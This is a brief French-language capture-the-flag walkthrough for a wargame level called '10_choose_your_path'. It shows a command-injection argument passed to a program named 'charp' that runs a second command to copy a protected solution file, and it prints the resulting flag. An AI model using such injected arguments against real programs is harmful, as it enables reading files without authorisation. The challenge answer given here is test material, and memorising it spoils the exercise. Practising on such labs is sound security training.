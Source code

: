 # 10_choose_your_path

`````sh
rantoo@warchall:/home/level/10_choose_your_path$ ls
`````
charp   charp.c   compile.sh   solution.txt

Ces commandes peuvent transmettre le contenu de fichier "solution.txt" à la fin de fichier "level_10.txt" (repertoire personnel) en presence de l'execution avec "./charp" 
`````sh
rantoo@warchall:/home/level/10_choose_your_path$ ./charp "so & cat solution.txt > ~/level_10.txt"
`````
=> allez dans la repertoire personnel et tape "ls"
Après,
````sh
rantoo@warchall:~$ cat level_10.txt
````
#!/C:\windows\system32\ed

Congratulations hacker,

You have achieved what only a few achieve.
Kinda.

The flag or solution for this challenge is: EpidermalGlance


The passkey is : **EpidermalGlance**

